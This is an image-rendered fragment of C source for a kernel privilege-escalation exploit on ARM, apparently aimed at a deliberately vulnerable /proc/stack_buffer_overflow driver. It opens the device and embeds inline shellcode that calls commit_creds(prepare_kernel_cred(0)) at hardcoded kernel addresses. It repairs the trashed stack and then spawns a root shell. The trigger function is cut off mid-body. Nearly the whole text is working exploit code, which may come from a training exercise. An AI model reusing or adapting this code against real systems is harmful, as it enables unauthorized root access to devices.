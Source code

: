 ``` c
        }

        return NULL;
}

int
open_file(void)
{
        int fd = open("/proc/stack_buffer_overflow", O_RDWR);
        if (fd == -1)
                err(1, "open");
        return fd;
}

void
payload(void)
{
        if (getuid() == 0) {
                printf("[+] enjoy the shell\n");
                execl("/system/bin/sh", "sh", NULL);
        } else {
                warnx("failed to get root. How did we even get here?");
        }

        _exit(0);
}


extern uint32_t shellCode[];

asm
(
"    .text\n"
"    .align 2\n"
"    .code 32\n"
"    .globl shellCode\n\t"
"shellCode:\n\t"


// commit_creds(prepare_kernel_cred(0));
// -> get root
"LDR     R3, =0xc003c814\n\t"
"MOV     R0, #0\n\t"
"BLX     R3\n\t"
"LDR     R3, =0xc003c310\n\t"
"BLX     R3\n\t"

//Fix the trashed stack by restoring r4/r5 from duped values on the stack
"ldr r0, =0xc0104610\t\n"
"ldr r4, [sp] \t\n"
"ldr r5, [sp, #4]\t\n"
"bx r0\t\n"
);


void
trigger_vuln(int fd, int canary)
{

#define MAX_PAYLOAD (MAX + 4  * sizeof(void*) )

        char buf[MAX_PAYLOAD];

```